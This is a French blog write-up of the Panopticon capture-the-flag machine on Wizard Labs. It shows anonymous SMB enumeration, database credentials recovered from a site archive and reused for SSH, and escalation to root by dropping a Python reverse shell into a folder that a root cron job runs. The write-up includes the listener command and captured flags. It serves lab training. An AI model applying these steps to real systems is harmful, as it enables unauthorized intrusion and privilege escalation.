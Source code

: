 # Solution du CTF Panopticon de Wizard Labs

Emoticon
--------

*Panopticon* est un CTF basé Linux proposé sur [Wizard Labs](https://labs.wizard-security.net/).  

Il est annoncé avec une difficulté de 2/10 donc facile :p   

Lexicon
-------

La machine dispose d'un serveur SSH, d'un serveur web Apache ainsi que des ports 139 et 445 rattachés au service Samba.  

L'utilitaire *enum4linux* est généralement utile pour l'énumération SMB. Il indique ici la présence d'un partage de fichier et la possibilité des connexions anonymes (NULL sessions):  

```plain
 =========================================
|    Nbtstat Information for 10.1.1.34    |
 =========================================
Looking up status of 10.1.1.34
    PANOPTICON      <00> -         B <ACTIVE>  Workstation Service
    PANOPTICON      <03> -         B <ACTIVE>  Messenger Service
    PANOPTICON      <20> -         B <ACTIVE>  File Server Service
    WORKGROUP       <00> - <GROUP> B <ACTIVE>  Domain/Workgroup Name
    WORKGROUP       <1e> - <GROUP> B <ACTIVE>  Browser Service Elections

    MAC Address = 00-00-00-00-00-00

 ==================================
|    Session Check on 10.1.1.34    |
 ==================================
[+] Server 10.1.1.34 allows sessions using username '', password ''
```

Le partage se nomme *public* :  

```plain
[+] Attempting to map shares on 10.1.1.34
//10.1.1.34/public  Mapping: OK, Listing: OK
//10.1.1.34/IPC$    [E] Can't understand response:
```

Et l'énumération des utilisateurs remonte deux entrées intéressantes :  

```plain
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User\seer (Local User)
S-1-22-1-1001 Unix User\guest (Local User)
```

Voyons voir ce qu'il y a sur ce partage :  

```plain
$ smbclient -U "" -N -I 10.1.1.34 //panopticon/public
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Jun 17 17:17:11 2018
  ..                                  D        0  Sat Feb 24 20:27:52 2018
  old-site.zip                        N   427943  Sat Feb 24 20:57:47 2018

        15415240 blocks of size 1024. 13458436 blocks available
smb: \> get old-site.zip
getting file \old-site.zip of size 427943 as old-site.zip (772,5 KiloBytes/sec) (average 772,5 KiloBytes/sec)
```

Une fois cette archive décompressée on trouve des identifiants dans le fichier *php-site-master/app/config/config.php* :  

```php
    'database' => array(
        'adapter' => 'mysql',
        'host' => 'localhost',
        'username' => 'seer',
        'password' => 'IS33Something',
        'dbname' => 'php_site'
    ),
```

Silicon
-------

Une recherche rapide dans le code PHP à la recherche de fonctions exploitables (*include*, *require*, *exec*, *passthru* et compagnie) ne retourne rien d'intéressant.  

Peu importe car les identifiants nous ouvrent les portes du serveur SSH :)  

L'utilisateur *seer* fait partie de la plupart des groupes que l'on voit de nos jours sur un système Linux mais n'est pas dans le groupe *sudo*.  

En dehors du flag je remarque un fichier texte intéressant :  

```plain
$ ls -l ..
total 20
drwxrwxrwx 2 root root 4096 Dec  2 16:21 dev_departement
drwxr-xr-x 2 root root 4096 Feb 24  2018 personal
drwxr-xr-x 2 root root 4096 Feb 24  2018 stuff
drwxr-xr-x 2 root root 4096 Feb 24  2018 tools
-rw-r--r-- 1 seer seer   33 Jun 17 16:55 user.txt

seer@Panopticon:~$ cat user.txt
6d3934480b23c0ca3d164cf19fa11946

seer@Panopticon:~$ cat dev_departement/dev.txt
Hello Seer !! You are the only script developper in this departement ... Like I said you , please drop here all your scripts maybe they can make my life easier :)

Brenda&
```

Intéressant... Ça laisse supposer que l'on peut laisser des scripts dans l'un des dossiers et attendre que *Brenda* les exécute.  

Pourtant pas d'utilisateur *brenda* sur le système, juste nous et *root*. On peut donc espérer une escalade de privilèges directement vers root.  

Mais j'ai beau avoir placé un script ou un binaire à différents emplacements autorisés (l'accès est impossible sur certains, voir le résultat de *ls* ci-dessus), rien ne semble exécuté.  

Une recherche sur l'utilisateur courant a remonté une entrée étrange dans */etc/issue* :  

```plain
seer@Panopticon:~$ grep -r seer /etc/ 2> /dev/null
/etc/aliases:root: seer
/etc/issue:2. in /home/seer/flag2.txt
/etc/services:afs3-bos  7007/tcp            # basic overseer process
/etc/subgid:seer:100000:65536
/etc/subuid:seer:100000:65536
/etc/passwd:seer:x:1000:1000:seer,,,:/home/seer:/bin/bash
/etc/group:cdrom:x:24:seer
/etc/group:floppy:x:25:seer
/etc/group:audio:x:29:seer
/etc/group:dip:x:30:seer
/etc/group:video:x:44:seer
/etc/group:plugdev:x:46:seer
/etc/group:netdev:x:108:seer
/etc/group:seer:x:1000:
seer@Panopticon:~$ cat /etc/issue
Welcome to Panopticon.

There are 3 flags to be found.

1. in /home/guest/public/flag1.txt
2. in /home/seer/flag2.txt
3. in /root/flag3.txt

This machine is made in order to test the mindset and not the technical
knowledge, although some basic pentesting experience is needed.

Enjoy and give me some feedback at perselis.e@gmail.com or
at facebook on the name emmanouil perselis.

Made by AXANO
IP: \4
```

Il semble que le premier flag ne soit plus d'actualité. Cela ne nous avance pas plus que ça.  

En revanche la recherche a mis en évidence l'alias mail de *seer* pour root (dans */etc/aliases*) et effectivement au bout d'un moment j'ai la notification d'un mail reçu dans le terminal.  

```plain
seer@Panopticon:~$ mail
"/var/mail/seer": 26307 messages 26307 new
>N   1 seer               Fri Feb 23 21:26  16/729   *** SECURITY information for Panopticon.Panopticon ***
 N   6 Cron Daemon        Sat Feb 24 21:30  35/1495  Cron <root@Panopticon> /home/seer/update.sh
 N  21 Cron Daemon        Sat Feb 24 22:04  44/2198  Cron <root@Panopticon> /home/seer/.update.sh
```

On voit ici que l'utilisateur a 26307 messages dans sa boîte ^\_^.  

*mail* est un vieux programme permettant l'envoi et la lecture du courrier depuis */var/spool/mail*.  

On peut lister les mails avec la commande *'l'*, afficher le contenu d'un message en rentrant son numéro, supprimer avec *'d'* suivi du numéro pour supprimer un email (ou l'astérisque pour tout supprimer) et enfin *'q'* pour quitter.  

Ici on voit qu'une tache *crontab* tente de lancer le script */home/seer/update.sh* ou */home/seer/.update.sh*.  

J'ai donc placé un script qui place un bash setuid à ces emplacements mais au bout d'un moment toujours rien :(.  

Favicon
-------

Finalement nouveau mail reçu :  

```plain
You have new mail in /var/mail/seer
 U2625 Cron Daemon        Sun Dec  2 14:48  23/849   Cron <root@Panopticon> bash /var/tmp/.lol.sh
python3: can't open file '*.py': [Errno 2] No such file or directory
```

J'aurais du aller lire le dernier email directement :p  

On a donc un script dans */var/tmp* qui essaye d'exécuter tous les scripts Python (on suppose dans le même dossier car le script n'est pas lisible) :  

```plain
-rwx------ 1 root root 125 Jun 27 14:38 /var/tmp/.lol.sh
```

J'ai eu recours [au reverse shell PTY Python d'Infodox](https://github.com/infodox/python-pty-shells/blob/master/tcp_pty_backconnect.py) et après un moment ça a payé :  

```plain
$ python2 tcp_pty_shell_handler.py -b 0.0.0.0:7777
root@Panopticon:/home/seer/dev_departement# id
uid=0(root) gid=0(root) groups=0(root)
root@Panopticon:/home/seer/dev_departement# cd /root
root@Panopticon:~# ls
root.txt
root@Panopticon:~# cat root.txt
8b470f864495744fcd8c3dc7b370e889
root@Panopticon:~# crontab -l
# Edit this file to introduce tasks to be run by cron.
#
# Each task to run has to be defined through a single line
# indicating with different fields when the task will be run
# and what command to run for the task
#
# To define the time you can provide concrete values for
# minute (m), hour (h), day of month (dom), month (mon),
# and day of week (dow) or use '*' in these fields (for 'any').#
# Notice that tasks will be started based on the cron's system
# daemon's notion of time and timezones.
#
# Output of the crontab jobs (including errors) is sent through
# email to the user the crontab file belongs to (unless redirected).
#
# For example, you can run a backup of all your user accounts
# at 5 a.m every week with:
# 0 5 * * 1 tar -zcf /var/backups/home.tgz /home/
#
# For more information see the manual pages of crontab(5) and cron(8)
#
# m h  dom mon dow   command

*/2 * * * * bash /var/tmp/.lol.sh
root@Panopticon:~# cat /var/tmp/.lol.sh
cd /home/seer/dev_departement
for f in *.py; do  # or wget-*.sh instead of *.sh
  python3 "$f"   || break # if needed
done
```


*Published November 17 2020 at 13:38*
